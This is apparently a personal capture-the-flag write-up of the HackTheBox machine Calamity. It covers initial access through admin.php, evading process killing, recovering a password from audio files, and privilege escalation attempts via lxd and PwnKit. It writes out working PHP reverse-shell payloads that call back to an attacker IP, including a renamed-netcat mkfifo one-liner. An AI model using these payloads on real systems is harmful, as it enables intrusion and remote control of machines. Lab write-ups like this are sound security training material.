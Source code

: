 ```yaml
---
title: "HackTheBox - Calamity (More Steganography!)"
categories:
  - Personal
  - posts
---
```

Calamity is another older HackTheBox machine that doesn't necessarily stand the test of time, as the intended binary exploitation privilege escalation is bypassed with PwnKit.

# User
Got a login to admin.php by view source and scrolling to the right

this works but the shell instantly dies

`<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.2/443 0>&1'"); ?>`

By reading /home/xalvas/intrusions we can infer that nc, sh, and python processes are being killed, so we can just move the nc binary to /dev/shm and rename it.

`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|/dev/shm/sneed 10.10.16.2 4444 >/tmp/f"); ?>`  works!

We exfiltrate the audio files, two of them are rickrolls, but don’t have the same md5 or audio waves

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/2798169a-52a4-43bc-94fb-500f8d9c50f0/04e17315-5e5e-44a6-9329-14201eb16550/image.png)

import both of them into audacity, go to effects, and invert.

`18547936..*`  works to ssh into xalvas!

# Root

We have the lxd group.

https://reboare.github.io/lxd/lxd-escape.html 

Tried this but it didn’t work, needed internet. Also tried the base64 workaround from 0xdfs tabby writeup but the i686 architecture wasn’t supported on this box.

`git clone https://github.com/saghul/lxd-alpine-builder`

`./build-alpine -a i686`

This builds a .tar.gz file of Alpine, so I transfer it over with nc.

nevermind I literally could not fucking find or generate a i686 alpine file so I pwnkitted it but the general concept remains…
